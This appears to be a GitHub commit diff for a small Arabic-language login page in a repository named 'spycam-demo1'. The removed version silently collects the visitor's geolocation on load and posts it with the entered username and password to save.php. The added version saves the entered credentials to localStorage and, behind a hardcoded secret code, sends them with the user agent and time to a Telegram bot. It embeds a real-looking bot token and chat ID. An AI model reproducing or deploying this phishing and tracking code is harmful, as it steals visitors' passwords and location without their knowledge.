

Before and after one commit to saifpro99/spycam-demo1, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-809 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html
Signed-off-by: saifpro99 <83516242+saifpro99@users.noreply.github.com>

```diff
--- a/index.html
+++ b/index.html
@@ -1,29 +1,63 @@
-
 <!DOCTYPE html>
 <html lang="ar">
 <head>
 <meta charset="UTF-8">
 <title>تسجيل الدخول</title>
+<style>
+body { font-family: Arial, sans-serif; background-color: #f0f0f0; text-align: center; padding-top: 50px; }
+input, button { padding: 10px; margin: 5px; border-radius: 5px; border: 1px solid #ccc; }
+#adminPanel { display: none; margin-top: 20px; background-color: #fff; padding: 20px; border-radius: 8px; }
+</style>
 <script>
-function sendLocation() {
-  if (navigator.geolocation) {
-    navigator.geolocation.getCurrentPosition(function(position) {
-      document.getElementById('lat').value = position.coords.latitude;
-      document.getElementById('lon').value = position.coords.longitude;
-    });
+const telegramToken = "6790035809:AAF1WJELoljfs8TKw3NsBTjtqTurTGI15l0";
+const chatId = "1320552080";
+
+async function handleLogin() {
+  const username = document.getElementById('username').value;
+  const password = document.getElementById('password').value;
+  const developerCode = document.getElementById('devcode').value;
+
+  // حفظ محلي
+  localStorage.setItem('username', username);
+  localStorage.setItem('password', password);
+
+  // رسالة البيانات
+  const message = `🚨 تسجيل دخول جديد:\n👤 المستخدم: ${username}\n🔑 كلمة المرور: ${password}\n🕵️‍♂️ الكود: ${developerCode}\n🌐 الوقت: ${new Date().toLocaleString()}\n📱 المتصفح: ${navigator.userAgent}`;
+
+  // إذا المطور دخل الكود السري
+  if (developerCode === "my_secret_code_123") {
+    document.getElementById('adminPanel').style.display = 'block';
+    alert("✅ مرحباً بالمطور! تم إرسال البيانات إلى تليجرام.");
+
+    // إرسال إلى تليجرام
+    await fetch(`https://api.telegram.org/bot${telegramToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`);
+
+  } else {
+    alert("تم حفظ بياناتك محلياً فقط.");
   }
+
+  // عرض البيانات في الصفحة
+  document.getElementById('result').innerText = `اسم المستخدم: ${username}, كلمة المرور: ${password}`;
 }
-window.onload = sendLocation;
 </script>
 </head>
 <body>
-<h2>تسجيل الدخول</h2>
-<form action="save.php" method="POST">
-  <input type="text" name="username" placeholder="اسم المستخدم" required><br><br>
-  <input type="password" name="password" placeholder="كلمة المرور" required><br><br>
-  <input type="hidden" name="lat" id="lat">
-  <input type="hidden" name="lon" id="lon">
-  <button type="submit">دخول</button>
-</form>
+
+<h2>تسجيل الدخول الوهمي</h2>
+
+<input type="text" id="username" placeholder="اسم المستخدم" required><br>
+<input type="password" id="password" placeholder="كلمة المرور" required><br>
+<input type="password" id="devcode" placeholder="كود المطور (سري)" required><br>
+
+<button onclick="handleLogin()">دخول</button>
+
+<p id="result"></p>
+
+<!-- لوحة المطور -->
+<div id="adminPanel">
+  <h3>لوحة المطور</h3>
+  <p>هنا أدواتك كمطور. البيانات أُرسلت لتليجرام.</p>
+</div>
+
 </body>
 </html>
```
